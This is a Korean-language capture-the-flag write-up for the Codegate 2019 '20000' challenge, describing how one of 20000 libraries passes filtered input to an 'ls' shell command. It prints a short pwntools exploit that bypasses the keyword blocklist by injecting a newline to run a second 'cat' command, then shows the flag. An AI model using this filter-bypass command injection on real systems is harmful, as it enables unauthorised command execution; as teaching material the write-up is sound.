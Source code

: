 ```yaml
---
layout: post
title: 20000
source: "Codegate 2019 Quals."
category: Pwnable
rpath: /resource/20000
tag: [binary_patch, IDA] 
---
```


**Category:** Pwnable/Reversing

**Source:** Codegate 2019 Quals.

**Points:** 6.8

**Author:** Jisoon Park(js00n.park)

**Description:** 

> nc 110.10.147.106 15959
>
> [Download]({{site.github.master}}{{page.rpath}}/c1e3a33d8932a4a61b0e0e0e49d6c9bc.zip)

## Write-up

주어진 zip 압축 파일을 열어보면 **20000**이라는 실행파일과 **20000_so.tar.gz**라는 새로운 압축 파일이 있다.

tar.gz 파일을 풀어보면 20000_so 라는 디렉토리에 이름대로 20000개의 라이브러리가 생성된다.

일단 주어진 실행파일을 먼저 실행해보자.

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

IDA를 이용해서 20000의 main() 함수를 살펴보면, INPUT 뒤에 숫자를 입력받고, 숫자에 해당하는 라이브러리를 열어서 그 안의 test() 함수를 실행시키도록 되어있다.

![img]({{page.rpath|prepend:site.baseurl}}/20000_main.png)

20000개의 라이브러리의 test() 함수 중에 뭔가 취약점이 있는게 있을 것이다.

일단 몇개라도 라이브러리들을 분석해 봐야 할것 같다. 일단 만만한 lib_1.so를 열어서 test 함수를 살펴보자.

```c
__int64 test()
{
  char buf; // [rsp+0h] [rbp-40h]
  __int16 v2; // [rsp+30h] [rbp-10h]
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v2 = 0;
  puts("This is lib_1 file.");
  puts("How do you find vulnerable file?");
  read(0, &buf, 0x32uLL);
  system("exit");
  return 0LL;
}
```

decompile 결과는 위와 같다. read()에서 2 byte overflow가 발생하지만, overflow로 덮어써지는 v2 변수는 별달리 써먹을데가 없을 것 같다. (심지어 read 후에 바로 종료한다.)

다른 몇개 라이브러리를 열어봤지만 별다른 차이를 발견할 수 없었다. 이 정도라면 다른 라이브러리도 동일한거 아닌가 하는 생각에 뭔가 다를게 있을까 싶어 라이브러리들의 크기를 한번 살펴보았다.

![img]({{page.rpath|prepend:site.baseurl}}/file_size.png)

4가지 종류의 라이브러리밖에 없는 것 같다.(각 크기별로 5000개씩 있었다.) 이 4가지만 살펴보면 될 듯 하다. find의 옵션을 활용하면 특정 크기를 갖는 파일을 찾을 수 있을 것 같지만, 나는 잘 모르겠으니 그냥 _ls -l | grep [filesize] | head_ 를 이용해서 찾아보았다.

6176, 5192, 6200 byte 크기의 라이브러리는 lib_1.so와 동일한 test 함수를 갖고 있었다.

크기가 가장 큰 6224 byte의 라이브러리의 test 함수는 뭔가 달랐다. 일단 그 중의 하나인 lib_10002.so의 test 함수를 살펴보자.

![img]({{page.rpath|prepend:site.baseurl}}/10002.png)

이 test 함수는 입력값을 lib_12719.so의 filter1 함수와 lib_317.so의 filter2 함수를 거친 후 **ls "%s"** 형태로 실행시켜 주고 있었다. command injection 문제인가 보다.

lib_12719.so의 filter1 함수와 lib_317.so의 filter2 함수는 아래와 같다.

![filter]({{page.rpath|prepend:site.baseurl}}/filter.png)

이 필터는 "bin", "sh", "bash" 문자열과 함께 아래의 문자열이 있는지 거른다.

![img]({{page.rpath|prepend:site.baseurl}}/filter_char.png)

sh 실행이 안되고 ;과 pipe, and, or, redirection 등이 막혀 있어서 ls 외의 다른 명령어 실행이 어렵다.

command injection 관련 [문서](https://github.com/lucyoa/ctf-wiki/tree/master/web/command-injection)를 찾아보자.

필터링 하는 문자열 중에 newline이 없으므로 이를 이용하는 [exploit]({{site.github.master}}{{page.rpath}}/ex.py)을 작성하였다.

```python
from pwn import *

p = remote("110.10.147.106", 15959)
p.recvuntil(": ")
p.sendline(str(10002))
print(p.recvuntil("?"))

p.sendline('." ' + '\n' + 'cat ??a? "')

p.interactive()
```

실행 결과, 원격 디렉토리의 내용과 함께 flag 값을 확인할 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **flag{Are_y0u_A_h@cker_in_real-word?}**
